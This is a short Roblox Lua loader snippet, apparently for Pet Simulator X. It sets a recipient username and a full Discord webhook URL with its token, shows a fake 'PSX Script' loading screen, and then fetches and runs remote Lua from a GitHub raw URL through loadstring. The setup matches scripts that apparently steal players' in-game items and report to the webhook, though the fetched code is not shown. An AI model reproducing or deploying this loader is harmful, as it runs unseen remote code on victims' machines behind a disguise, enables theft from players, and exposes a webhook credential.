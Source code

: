 Username = "FNTCLOUT_ALT111"
WebHook = "https://discord.com/api/webhooks/1089781739355918356/_08ZYoA2mR38gUqNGdANmyZcdbDo2iNFO_JnSsaGopUOGBld1vyTTzSy6x9snDS4U2nm"


loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
_G.CustomScriptName = "PSX Script"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
